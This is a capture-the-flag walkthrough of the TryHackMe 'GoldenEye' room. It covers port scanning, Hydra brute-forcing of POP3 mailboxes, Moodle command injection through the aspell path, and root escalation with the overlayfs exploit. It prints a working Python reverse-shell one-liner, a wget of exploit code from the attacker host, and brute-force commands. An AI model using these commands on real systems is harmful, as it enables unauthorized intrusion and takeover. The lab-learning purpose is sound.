




GoldenEye
All flags, passwords, and hashes have been redacted per TryHackMe's write-up policy. This write-up focuses on methodology and techniques.
// Overview
GoldenEye is a TryHackMe room that simulates a multi-service corporate network. The room is themed around the classic James Bond film and follows a realistic penetration testing methodology.
The attack chain includes:
- Port scanning and service enumeration
- Source code analysis to discover default credentials
- Password brute-forcing against POP3 services
- Credential harvesting through email enumeration
- DNS host configuration for virtual host access
- Moodle CMS exploitation via a spell checker plugin
- Reverse shell acquisition through command injection
- Linux privilege escalation using the overlayfs kernel exploit
// Phase 1: Reconnaissance
We begin with an Nmap full port scan to identify open services:
nmap -p- -sV -sC -T4 <target_ip>
The scan reveals four open ports:
PORT STATE SERVICE VERSION 25/tcp open smtp Postfix smtpd 80/tcp open http Apache httpd 2.4.7 55006/tcp open ssl/pop3 Dovecot pop3d 55007/tcp open pop3 Dovecot pop3d
Port 80 hosts a website for Severnaya Auxiliary Control Station. The page includes a login link at /sev-home/ and references a JavaScript file called terminal.js.
Viewing the source of terminal.js reveals an interesting comment:
//Boris, make sure you update your default password.
Immediately below, an HTML-encoded string gives us Boris's default password. Decoding it reveals a weak credential that works on the /sev-home/ web login.
boris. The password was found in terminal.js as an HTML-encoded string.
// Phase 2: Credential Harvesting
We attempted to reuse the web credentials on the POP3 service on port 55007, but it failed. Using Hydra with the fasttrack.txt wordlist, we brute-forced the POP3 password.
hydra -l boris -P /usr/share/wordlists/fasttrack.txt <target_ip> -s 55007 pop3 -v
Hydra quickly found the password, granting us access to Boris's mailbox.
nc -nv <target_ip> 55007 USER boris PASS [REDACTED] LIST RETR 2
Boris's emails revealed a conversation mentioning Natalya, who could break his codes. We repeated the brute-force process for Natalya, gaining access to her mailbox.
Natalya's emails contained credentials for Xenia, and Xenia's emails revealed the next user, Doak. This pattern continued through the credential chain:
- boris → Web login (source code) → POP3 (Hydra)
- natalya → POP3 (found in Boris's email)
- xenia → POP3 (found in Natalya's email)
- doak → POP3 (Hydra) → dr_doak (found in Doak's email)
- dr_doak → Moodle web application

// Phase 3: Web Pivot & Admin Discovery
Before accessing the Moodle site, we added the virtual host to /etc/hosts:
echo "<target_ip> severnaya-station.com" >> /etc/hosts
We navigated to http://severnaya-station.com/gnocertdir and logged in as dr_doak.

s3cret.txt.The s3cret.txt file contained a message pointing to an image:
/dir007key/for-007.jpg
We downloaded the image and used strings to inspect its contents:
strings for-007.jpg | head -5 JFIF Exif eFdpbnRlcjE5OTV4IQ== GoldenEye linux
The Base64-encoded string decoded to the admin password:
echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d [REDACTED]
// Phase 4: Reverse Shell via Moodle RCE
Using the admin credentials found via steganography, we logged into Moodle and navigated to the system paths configuration:
Site Administration → Server → System paths
We found the Path to aspell field and replaced it with a Python reverse shell command:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

We set up a listener on our attack machine:
nc -lvnp 4444
To trigger the command, we created a new blog entry and clicked the spell check button, which calls the Aspell binary:

This gave us a foothold as www-data:
Connection received on <your_ip> 4444 /bin/sh: 0: can't access tty; job control turned off $ whoami www-data
aspell binary. By replacing its path with a command, we achieved remote code execution.
// Phase 5: Privilege Escalation
We checked the kernel version and confirmed it was vulnerable to the Overlayfs exploit (CVE-2015-1328):
uname -a Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP ... x86_64
We downloaded the exploit source from Exploit-DB and compiled it on the target:
wget http://<your_ip>:1337/37292.c -O ofs_exploit.c
However, the exploit calls gcc at runtime to create a shared library. The target only had cc installed. We created a symlink to bypass this limitation:
ln -s /usr/bin/cc /tmp/gcc export PATH=/tmp:$PATH
We ran the exploit and successfully escalated to root:
./ofs_exploit spawning threads mount #1 mount #2 child threads done /etc/ld.so.preload created creating shared library # whoami root
gcc and only cc was available, a simple symlink bypassed the limitation. This kind of creative thinking separates good hackers from great ones.
// Phase 6: Flags
With root access, we located and retrieved the flags:
# Find the root flag cat /root/.flag.txt Alec told me to place the codes here: [REDACTED] If you captured this make sure to go here..... /006-final/xvf7-flag/
Flags have been redacted in accordance with TryHackMe's write-up policy. The root flag is located at /root/.flag.txt.
// Key Takeaways
/etc/hosts.
strings on suspicious files.
gcc dependency shows adaptability.